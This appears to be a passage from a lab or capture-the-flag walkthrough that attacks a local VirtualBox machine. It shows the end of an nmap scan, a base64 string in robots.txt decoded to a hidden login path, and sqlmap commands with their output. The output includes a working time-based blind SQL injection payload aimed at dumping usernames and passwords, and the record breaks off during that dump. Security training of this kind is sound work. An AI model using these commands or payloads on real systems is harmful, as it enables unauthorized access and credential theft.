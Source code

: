 |_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:3F:BA:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  3 22:33:54 2022 -- 1 IP address (1 host up) scanned in 123.17 seconds

>> there is robots.txt file is present.
>> source code of robots.txt page : THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh | base64 encoded string
>> # decode it : Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer! | again encoded string
>> # decode it : /978345210/index.php
>> on index.php page having login service . so save this request from burpsuite and test it for sqlinjection using sqlmap tool.
>> # sqlmap -r <FILE.req> --dump --risk 3 --level 5

# ->Exploitation Phase:

>> # sqlmap -r exploit.req -D Webapp -T Users -C username,password --dump

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:02:10 /2022-02-04/

[00:02:11] [INFO] parsing HTTP request from 'exploit.req'
it appears that provided value for POST parameter 'submit' has boundaries. Do you want to inject inside? (' Login* ') [y/N] y
[00:02:15] [INFO] resuming back-end DBMS 'mysql' 
[00:02:15] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.0.105:1337/978345210/profile.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 7322 FROM (SELECT(SLEEP(5)))Pfzc)-- hdJx&password=password&submit= Login
---
[00:02:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12
[00:02:20] [INFO] fetching entries of column(s) 'password,username' for table 'Users' in database 'Webapp'
[00:02:20] [INFO] fetching number of column(s) 'password,username' entries for table 'Users' in database 'Webapp'